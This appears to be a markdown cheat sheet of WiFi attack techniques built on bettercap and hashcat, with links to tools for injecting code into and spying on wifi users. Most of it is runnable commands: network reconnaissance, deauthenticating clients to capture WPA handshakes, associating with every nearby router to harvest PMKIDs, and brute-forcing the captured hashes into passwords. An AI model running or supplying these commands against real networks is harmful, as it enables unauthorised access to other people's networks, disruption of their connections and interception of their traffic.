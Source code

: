 # Tools
- Inject code and spy on wifi users: https://github.com/DanMcInerney/LANs.py
- Collection of PowerShell network security scripts for system administrators: https://github.com/thom-s/netsec-ps-scripts

# BetterCap

Swiss army knife for network attacks and monitoring: https://www.bettercap.org/

> Pwning WPA/WPA2 Networks With Bettercap and the PMKID Client-Less Attack: https://www.evilsocket.net/2019/02/13/Pwning-WiFi-networks-with-bettercap-and-the-PMKID-client-less-attack/#.XGRV3mo06jA.twitter

## 4 way handshake capture:
```
sudo bettercap -iface wlan0

# this will set the interface in monitor mode and start channel hopping on all supported frequencies
> wifi.recon on
# we want our APs sorted by number of clients for this attack, the default sorting would be `rssi asc`
> set wifi.show.sort clients desc
# every second, clear our view and present an updated list of nearby WiFi networks
> set ticker.commands 'clear; wifi.show'
> ticker on
```
```
wifi.recon.channel 1
```
```
wifi.deauth e0:xx:xx:xx:xx:xx
```

## Cracking 4-way handshake
```
/path/to/cap2hccapx /root/bettercap-wifi-handshakes.pcap bettercap-wifi-handshakes.hccapx
/path/to/hashcat -m2500 -a3 -w3 bettercap-wifi-handshakes.hccapx '?d?d?d?d?d?d?d?d'
```

## Client-less PMKID Attack
> https://hashcat.net/forum/thread-7717.html
>
> PMKID = HMAC-SHA1-128(PMK, "PMK Name" | MAC_AP | MAC_STA)

```
# wifi.assoc supports 'all' (or `*`) or a specific BSSID, just like wifi.deauth
> wifi.assoc all
```
All nearby vulnerable routers (and let me reiterate: a lot of them are vulnerable), will start sending you the PMKID, which bettercap will dump to the usual pcap file:

## PMKID Cracking

```
/path/to/hcxpcaptool -z bettercap-wifi-handshakes.pmkid /root/bettercap-wifi-handshakes.pcap
/path/to/hashcat -m16800 -a3 -w3 bettercap-wifi-handshakes.pmkid '?d?d?d?d?d?d?d?d'
```
